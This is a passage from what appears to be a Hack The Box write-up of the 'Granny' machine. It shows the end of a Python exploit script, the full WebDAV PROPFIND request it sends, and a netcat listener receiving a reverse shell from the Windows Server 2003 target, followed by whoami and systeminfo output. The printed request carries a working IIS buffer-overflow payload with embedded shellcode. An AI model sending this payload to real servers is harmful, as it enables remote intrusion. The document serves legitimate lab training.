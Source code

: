 ```
pay+='>\r\n\r\n'
print pay
sock.send(pay)
sock.send(shellcode)
data = sock.recv(80960)  
print data 
sock.close
```

I did try msfvenom reverse shells instead of the one in the script, to shorten it down. But my nc listener would be stuck after the connection was received. 

```
kali@kali:~/htb/Granny$ python exploit.py
PROPFIND / HTTP/1.1
Host: localhost
Content-Length: 1744
If: <http://localhost/aaaaaaa￦ﾽﾨ￧ﾡﾣ￧ﾝﾡ￧ﾄﾳ￦ﾤﾶ￤ﾝﾲ￧ﾨﾹ￤ﾭﾷ￤ﾽﾰ￧ﾕﾓ￧ﾩﾏ￤ﾡﾨ￥ﾙﾣ￦ﾵﾔ￦ﾡﾅ￣ﾥﾓ￥ﾁﾬ￥ﾕﾧ￦ﾝﾣ￣ﾍﾤ￤ﾘﾰ￧ﾡﾅ￦ﾥﾒ￥ﾐﾱ￤ﾱﾘ￦ﾩﾑ￧ﾉﾁ￤ﾈﾱ￧ﾀﾵ￥ﾡﾐ￣ﾙﾤ￦ﾱﾇ￣ﾔﾹ￥ﾑﾪ￥ﾀﾴ￥ﾑﾃ￧ﾝﾒ￥ﾁﾡ￣ﾈﾲ￦ﾵﾋ￦ﾰﾴ￣ﾉﾇ￦ﾉﾁ￣ﾝﾍ￥ﾅﾡ￥ﾡﾢ￤ﾝﾳ￥ﾉﾐ￣ﾙﾰ￧ﾕﾄ￦ﾡﾪ￣ﾍﾴ￤ﾹﾊ￧ﾡﾫ￤ﾥﾶ￤ﾹﾳ￤ﾱﾪ￥ﾝﾺ￦ﾽﾱ￥ﾡﾊ￣ﾈﾰ￣ﾝﾮ￤ﾭﾉ￥ﾉﾍ￤ﾡﾣ￦ﾽﾌ￧ﾕﾖ￧ﾕﾵ￦ﾙﾯ￧ﾙﾨ￤ﾑﾍ￥ﾁﾰ￧ﾨﾶ￦ﾉﾋ￦ﾕﾗ￧ﾕﾐ￦ﾩﾲ￧ﾩﾫ￧ﾝﾢ￧ﾙﾘ￦ﾉﾈ￦ﾔﾱ￣ﾁﾔ￦ﾱﾹ￥ﾁﾊ￥ﾑﾢ￥ﾀﾳ￣ﾕﾷ￦ﾩﾷ￤ﾅﾄ￣ﾌﾴ￦ﾑﾶ￤ﾵﾆ￥ﾙﾔ￤ﾝﾬ￦ﾕﾃ￧ﾘﾲ￧ﾉﾸ￥ﾝﾩ￤ﾌﾸ￦ﾉﾲ￥ﾨﾰ￥ﾤﾸ￥ﾑﾈ￈ﾂ￈ﾂ￡ﾋﾀ￦ﾠﾃ￦ﾱﾄ￥ﾉﾖ￤ﾬﾷ￦ﾱﾭ￤ﾽﾘ￥ﾡﾚ￧ﾥﾐ￤ﾥﾪ￥ﾡﾏ￤ﾩﾒ￤ﾅﾐ￦ﾙﾍ￡ﾏﾀ￦ﾠﾃ￤ﾠﾴ￦ﾔﾱ￦ﾽﾃ￦ﾹﾦ￧ﾑﾁ￤ﾍﾬ￡ﾏﾀ￦ﾠﾃ￥ﾍﾃ￦ﾩﾁ￧ﾁﾒ￣ﾌﾰ￥ﾡﾦ￤ﾉﾌ￧ﾁﾋ￦ﾍﾆ￥ﾅﾳ￧ﾥﾁ￧ﾩﾐ￤ﾩﾬ> (Not <locktoken:write1>) <http://localhost/bbbbbbb￧ﾥﾈ￦ﾅﾵ￤ﾽﾃ￦ﾽﾧ￦ﾭﾯ￤ﾡﾅ￣ﾙﾆ￦ﾝﾵ￤ﾐﾳ￣ﾡﾱ￥ﾝﾥ￥ﾩﾢ￥ﾐﾵ￥ﾙﾡ￦ﾥﾒ￦ﾩﾓ￥ﾅﾗ￣ﾡﾎ￥ﾥﾈ￦ﾍﾕ￤ﾥﾱ￤ﾍﾤ￦ﾑﾲ￣ﾑﾨ￤ﾝﾘ￧ﾅﾹ￣ﾍﾫ￦ﾭﾕ￦ﾵﾈ￥ﾁﾏ￧ﾩﾆ￣ﾑﾱ￦ﾽﾔ￧ﾑﾃ￥ﾥﾖ￦ﾽﾯ￧ﾍﾁ￣ﾑﾗ￦ﾅﾨ￧ﾩﾲ￣ﾝﾅ￤ﾵﾉ￥ﾝﾎ￥ﾑﾈ￤ﾰﾸ￣ﾙﾺ￣ﾕﾲ￦ﾉﾦ￦ﾹﾃ￤ﾡﾭ￣ﾕﾈ￦ﾅﾷ￤ﾵﾚ￦ﾅﾴ￤ﾄﾳ￤ﾍﾥ￥ﾉﾲ￦ﾵﾩ￣ﾙﾱ￤ﾹﾤ￦ﾸﾹ￦ﾍﾓ￦ﾭﾤ￥ﾅﾆ￤ﾼﾰ￧ﾡﾯ￧ﾉﾓ￦ﾝﾐ￤ﾕﾓ￧ﾩﾣ￧ﾄﾹ￤ﾽﾓ￤ﾑﾖ￦ﾼﾶ￧ﾍﾹ￦ﾡﾷ￧ﾩﾖ￦ﾅﾊ￣ﾥﾅ￣ﾘﾹ￦ﾰﾹ￤ﾔﾱ￣ﾑﾲ￥ﾍﾥ￥ﾡﾊ￤ﾑﾎ￧ﾩﾄ￦ﾰﾵ￥ﾩﾖ￦ﾉﾁ￦ﾹﾲ￦ﾘﾱ￥ﾥﾙ￥ﾐﾳ￣ﾅﾂ￥ﾡﾥ￥ﾥﾁ￧ﾅﾐ￣ﾀﾶ￥ﾝﾷ￤ﾑﾗ￥ﾍﾡ￡ﾏﾀ￦ﾠﾃ￦ﾹﾏ￦ﾠﾀ￦ﾹﾏ￦ﾠﾀ￤ﾉﾇ￧ﾙﾪ￡ﾏﾀ￦ﾠﾃ￤ﾉﾗ￤ﾽﾴ￥ﾥﾇ￥ﾈﾴ￤ﾭﾦ￤ﾭﾂ￧ﾑﾤ￧ﾡﾯ￦ﾂﾂ￦ﾠﾁ￥ﾄﾵ￧ﾉﾺ￧ﾑﾺ￤ﾵﾇ￤ﾑﾙ￥ﾝﾗ￫ﾄﾓ￦ﾠﾀ￣ﾅﾶ￦ﾹﾯ￢ﾓﾣ￦ﾠﾁ￡ﾑﾠ￦ﾠﾃ￧﾿ﾾ￯﾿﾿￯﾿﾿￡ﾏﾀ￦ﾠﾃ￑ﾮ￦ﾠﾃ￧ﾅﾮ￧ﾑﾰ￡ﾐﾴ￦ﾠﾃ￢ﾧﾧ￦ﾠﾁ￩ﾎﾑ￦ﾠﾀ￣ﾤﾱ￦ﾙﾮ￤ﾥﾕ￣ﾁﾒ￥ﾑﾫ￧ﾙﾫ￧ﾉﾊ￧ﾥﾡ￡ﾐﾜ￦ﾠﾃ￦ﾸﾅ￦ﾠﾀ￧ﾜﾲ￧ﾥﾨ￤ﾵﾩ￣ﾙﾬ￤ﾑﾨ￤ﾵﾰ￨ﾉﾆ￦ﾠﾀ￤ﾡﾷ￣ﾉﾓ￡ﾶﾪ￦ﾠﾂ￦ﾽﾪ￤ﾌﾵ￡ﾏﾸ￦ﾠﾃ￢ﾧﾧ￦ﾠﾁVVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJINDKSKPKPTKKQTKT0D8TKQ8RTJKKX1OTKIGJSW4R0KOIBJHKCKOKOKOF0V04PF0M0A>
```


```
kali@kali:~/htb/Granny$ sudo nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 10.129.85.227 1054
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
```

So we are not root yet. 
Let’s check the systeminfo:

```
C:\WINDOWS\Temp>systeminfo
systeminfo

Host Name:                 GRANNY
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 1 Hours, 41 Minutes, 10 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
```